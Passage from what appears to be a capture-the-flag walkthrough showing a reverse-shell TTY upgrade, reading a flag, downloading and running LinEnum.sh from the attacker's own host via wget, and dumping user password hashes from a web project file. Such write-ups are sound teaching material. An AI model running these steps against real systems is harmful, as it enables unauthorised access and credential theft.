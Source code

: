 1. The first thing to do is use python3 -c 'import pty;pty.spawn("/bin/bash")' ', which uses Python to spawn a better-featured bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.

2. Step two is:
 export TERM=xterm – this will give us access to term commands such as clear.


3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg.This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```
With that out of the way, let's find the **first** flag! 
We CD into the /var/www directory, list the files and cat out the contents of flag_1.txt:

```bash
/var/www
total 16K
drwxr-xr-x  3 root     root     4.0K Jan 31 14:30 .
drwxr-xr-x 15 root     root     4.0K Jan 30 16:07 ..
-rw-r--r--  1 root     root       33 Jan 31 14:30 flag_1.txt
drwxr-xr-x 11 www-data www-data 4.0K Jan 31 14:40 html                                                                                         
```


## More Enumeration

### LinEnum.sh

Time to enumerate some more and hope we find the user credentials stored somewhere.

We host LinEnum.sh on our kali instance and tell the script to search for the keyword "password".

```bash
python3 -m http.server 8000
wget http://kali.ip:8000/LinEnum.sh
chmod +x LinEnum.sh

./LinEnum.sh -s -k password -r report -e /tmp/ -t
cat report-07-07-21 | grep erik
cat report-07-07-21 | grep thomas
```

```bash
<?php/*|[{"username":"thomas","password":"b75677223a845cc865d39aa8ae243c95ab7d3b37","project":"\/var\/www\/html\/my_code"},{"username":"admin","password":"90b9aa7e25f80cf4f64e990b78a9fc5ebd6cecad","project":"\/var\/www\/html\/my_code"},{"username":"erik","password":"7386ab8085e52a2b9baa407c21ff44fc2e23da21","project":"\/var\/www\/html\/my_code"}]|*/?>$ 
```
